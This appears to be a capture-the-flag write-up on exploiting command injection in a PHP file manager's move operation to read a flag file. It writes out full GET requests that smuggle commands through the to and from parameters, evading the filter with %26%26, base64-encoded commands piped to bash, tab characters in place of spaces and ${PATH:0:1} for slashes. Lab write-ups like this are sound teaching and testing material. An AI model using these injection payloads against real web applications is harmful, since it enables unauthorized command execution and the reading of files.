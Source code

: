 After navigating to the provided IP address, I was presented with a login form. 
![image](https://github.com/user-attachments/assets/8f63b8e7-44c3-459e-9468-332e2290d76e)

Using the credentials guest for both the username and password, I successfully logged in and accessed the main interface of the application. 
![image](https://github.com/user-attachments/assets/bf60fa83-7a6b-47c7-993e-f9a1d669be58)

The dashboard displayed a list of files, each with multiple available actions: **View, Copy to, Direct Link, and Download**. There was also an **Advanced Search** feature. Screenshots of the interface are included below for reference. This initial exploration helped me understand how the web application handled file operations, which later played a key role in identifying command injection points and exploiting them to retrieve the target flag.

Each action triggered specific HTTP GET requests, and by analyzing how the to, from, and move parameters behaved, I started mapping how file operations were executed on the backend. 

### View
```bash
GET /index.php?to=&view=51459716.txt&quickView=1
```
![image](https://github.com/user-attachments/assets/bdc65f98-b252-47f3-a07b-1515a7ef36d5)

### Copy to
```bash
GET /index.php?to=&from=51459716.txt
```
![image](https://github.com/user-attachments/assets/19de108f-c090-464c-823e-9566108aaa5b)

### Direct Link
```bash
GET /51459716.txt
```
![image](https://github.com/user-attachments/assets/b83b42fe-3c22-450e-8034-b638a8cc5615)

### Download
```bash
GET /index.php?to=&dl=51459716.txt
```
![image](https://github.com/user-attachments/assets/b2b95793-2c9b-42cd-ace5-1cf5ae02dba7)

### Advance Search
```bash
POST /index.php?to= HTTP/1.1
SNIP...
ajax=true&content=have&path=.&type=search
```
![image](https://github.com/user-attachments/assets/6873e2e7-139e-45b3-ac5b-dab7f9a283d1)

Initially, attempts to execute commands directly such as `whoami` through either `to=` or `from=` parameters were denied, returning the message **"Malicious request denied."**
**whoami in to**
![image](https://github.com/user-attachments/assets/2d4c5af4-8740-4b8d-9aeb-bd4ef6eb49d6)

**whoami in from**
![image](https://github.com/user-attachments/assets/26105475-ad8d-415e-bdf3-57f711723319)

Both these gave Malicious request denied.

![image](https://github.com/user-attachments/assets/2b26095f-76c4-4fc0-9f17-7af93f1fccb6)

![image](https://github.com/user-attachments/assets/c3e50e94-e288-420d-b846-8d04959c3554)

I discovered that the operator %26%26 is accepted. Based on the error message, it’s clear the server is using the mv command.
![image](https://github.com/user-attachments/assets/0099502c-8cad-4002-b6e5-7d93fd12c090)

Again doing GET /index.php?to=&from=51459716.txt%26%26whoami&finish=1&move=1;whoami gave me the same error

![image](https://github.com/user-attachments/assets/e8fec73e-719a-41f5-9bec-e10ae712f2cd)

GET /index.php?to=&from=51459716.txt%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&finish=1&move=1;whoami

![image](https://github.com/user-attachments/assets/ef55853b-7647-4ee1-9a0b-27ff212b06cb)

GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&from=51459716.txt&finish=1&move=1;whoami
![image](https://github.com/user-attachments/assets/39cdbdde-f258-4a1a-8644-87423aa8e6dc)

GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&from=605311066.txt&finish=1&move=1
![image](https://github.com/user-attachments/assets/528ca51f-943f-4ce8-b3e8-867de6894acf)

echo -n "ls -la" | base64                   
bHMgLWxh

I am regularly changing file names because the previous file gets removed while trying to move 
GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"bHMgLWxh")&from=787113764.txt&finish=1&move=1
![image](https://github.com/user-attachments/assets/8ca9801c-e87b-4e08-b91c-7e0109704609)

echo -n "cat ${PATH:0:1}flag.txt" | base64
Y2F0IC9mbGFnLnR4dA==

GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"Y2F0IC9mbGFnLnR4dA==")&from=877915113.txt&finish=1&move=1
![image](https://github.com/user-attachments/assets/aac33350-f1eb-404a-8826-eb44861d12cd)

